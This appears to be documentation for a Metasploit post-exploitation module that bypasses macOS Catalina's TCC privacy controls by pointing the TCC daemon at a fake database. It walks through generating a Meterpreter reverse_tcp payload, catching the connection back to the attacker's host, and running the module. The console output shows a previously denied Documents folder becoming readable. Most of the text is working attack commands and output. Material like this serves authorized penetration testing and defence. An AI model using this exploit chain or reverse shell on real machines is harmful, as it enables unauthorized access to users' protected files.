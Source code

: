 ## Vulnerable Application

This module exploits a vulnerability in the TCC daemon on macOS Catalina
(<= 10.15.5) in order to grant TCC entitlements. The TCC daemon can be
manipulated (by setting the HOME environment variable) to use a new user
controlled location as the TCC database. We can then grant ourselves
entitlements by inserting them into this new database.

## Verification Steps

  1. Start msfconsole
  1. Get a user session on OSX 10.15.5 (or lower)
  1. Do: ```use post/osx/escalate/tccbypass```
  1. Do: ```set SESSION -1```
  1. Do: ```run```
  1. Your session should now be able to access the ~/Documents folder

## Scenarios

### User level shell on macOS Catalina 10.15.4

```
msf6 > use payload/osx/x64/meterpreter/reverse_tcp
msf6 payload(osx/x64/meterpreter/reverse_tcp) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf6 payload(osx/x64/meterpreter/reverse_tcp) > set lport 4567
lport => 4567
msf6 payload(osx/x64/meterpreter/reverse_tcp) > generate -f macho -o revtcpx64.mac
[*] Writing 17204 bytes to revtcpx64.mac...
msf6 payload(osx/x64/meterpreter/reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0

[*] Started reverse TCP handler on 192.168.135.197:4567 
msf6 payload(osx/x64/meterpreter/reverse_tcp) > [*] Transmitting first stager...(210 bytes)
[*] Transmitting second stager...(8192 bytes)
[*] Sending stage (799916 bytes) to 192.168.132.178
[*] Meterpreter session 1 opened (192.168.135.197:4567 -> 192.168.132.178:49156) at 2020-09-10 11:44:05 -0500

msf6 payload(osx/x64/meterpreter/reverse_tcp) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer     : msfusers-Mac.local
OS           : macOS Catalina (macOS 10.15.4)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > getuid
Server username: msfuser @ msfusers-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > ls Documents
[-] 1009: Operation failed: 1
meterpreter > background
[*] Backgrounding session 1...
msf6 payload(osx/x64/meterpreter/reverse_tcp) > use post/osx/escalate/tccbypass 
msf6 post(osx/escalate/tccbypass) > show options

Module options (post/osx/escalate/tccbypass):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf6 post(osx/escalate/tccbypass) > set session 1
session => 1
msf6 post(osx/escalate/tccbypass) > set verbose true
verbose => true
msf6 post(osx/escalate/tccbypass) > run

[*] Creating TCC directory /tmp/.SZulaEVB/Library/Application Support/com.apple.TCC
[+] fake TCC DB found: /tmp/.SZulaEVB/Library/Application Support/com.apple.TCC/TCC.db
[+] TCC.db was successfully updated!
[*] To cleanup, run:
launchctl unsetenv HOME && launchctl stop com.apple.tccd && launchctl start com.apple.tccd
rm -rf '/tmp/.SZulaEVB'

[*] Post module execution completed
msf6 post(osx/escalate/tccbypass) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: msfuser @ msfusers-Mac.local (uid=501, gid=20, euid=501, egid=20)
meterpreter > ls Documents 
Listing: Documents
==================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  0     fil   2020-08-14 13:51:29 -0500  .localized

meterpreter > 
```
